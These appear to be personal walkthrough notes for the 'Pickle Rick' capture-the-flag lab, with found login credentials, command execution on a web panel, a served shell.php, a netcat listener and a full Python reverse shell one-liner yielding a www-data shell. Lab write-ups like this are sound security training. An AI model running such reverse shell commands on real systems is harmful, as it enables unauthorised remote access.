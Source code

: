 


access to /login.php with

user: R1ckRul3s
pass: Wubbalubbadubdub

![[Pasted image 20221029121458.png]]

very straightforward code execution:

![[Pasted image 20221029121544.png]]

![[Pasted image 20221029122156.png]]


tried:

cat Sup3rS3cretPickl3Ingred.txt

`

![[Pasted image 20221029121719.png]]

so I tried with strings:


![[Pasted image 20221029122351.png]]

spawn a Python web server:
```
joshua@kaligra:~/Documents/thm/Pickle Rick/Walkthrough$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

![[Pasted image 20221029122006.png]]


Ok, file is transferred to target:

```
10.10.104.194 - - [29/Oct/2022 12:19:31] "GET /shell.php HTTP/1.1" 200 -

```



Let's spawn a netcat listener:

```
joshua@kaligra:~/Documents/thm/Pickle Rick/Walkthrough$ nc -nvlp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444

```

it seems we have not permission (as 
`www-data`

Bash reverse shell failed, so I tried with python

```
export RHOST="10.9.10.198";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

got access

```
joshua@kaligra:~/Documents/thm/Pickle Rick/Walkthrough$ nc -nvlp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.104.194.
Ncat: Connection from 10.10.104.194:38872.
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$

```


